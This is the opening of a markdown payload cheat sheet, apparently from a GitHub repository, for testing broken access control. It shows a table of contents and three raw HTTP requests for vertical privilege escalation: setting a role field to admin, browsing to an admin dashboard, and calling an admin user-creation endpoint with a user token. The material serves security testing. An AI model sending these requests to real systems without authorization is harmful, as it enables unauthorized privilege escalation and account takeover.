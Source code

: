 # Complete Broken Access Control Payloads

This document provides comprehensive payloads and techniques for testing Broken Access Control vulnerabilities, including vertical/horizontal privilege escalation, insecure direct object references (IDOR), and other authorization flaws.

## Table of Contents
1. [Vertical Privilege Escalation](#vertical-privilege-escalation)
2. [Horizontal Privilege Escalation](#horizontal-privilege-escalation)
3. [IDOR Techniques](#idor-techniques)
4. [Parameter Manipulation](#parameter-manipulation)
5. [HTTP Method Manipulation](#http-method-manipulation)
6. [JWT Token Manipulation](#jwt-token-manipulation)
7. [API Authorization Testing](#api-authorization-testing)
8. [Admin Functionality Access](#admin-functionality-access)
9. [Metadata Manipulation](#metadata-manipulation)
10. [Advanced Bypass Techniques](#advanced-bypass-techniques)

---

## Vertical Privilege Escalation

### Role Parameter Manipulation
```http
POST /updateProfile HTTP/1.1
Host: target.com
Content-Type: application/json
Cookie: session=user_session

{
  "user_id": "user123",
  "role": "admin"
}
```

### Forced Browsing to Admin Panel
```http
GET /admin/dashboard HTTP/1.1
Host: target.com
Cookie: session=low_priv_session
```

### Privileged API Endpoint Access
```http
POST /api/admin/createUser HTTP/1.1
Host: target.com
Authorization: Bearer user_token

{
  "username": "new_admin",
  "role": "super_admin"
}
```

---